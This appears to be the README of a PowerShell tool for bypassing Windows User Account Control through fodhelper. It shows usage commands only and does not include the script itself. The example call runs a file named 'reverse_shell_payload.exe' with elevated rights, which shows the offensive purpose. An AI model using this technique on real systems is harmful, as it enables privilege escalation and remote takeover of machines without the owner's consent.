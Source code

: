 # fodhelper-UACBypass

## Usage
```powershell
PS> . ./fodhelper-UACBypass.ps1

PS> Bypass-UAC "C:\Users\john\reverse_shell_payload.exe"
# or
PS> Bypass-UAC # launch powershell window.

```
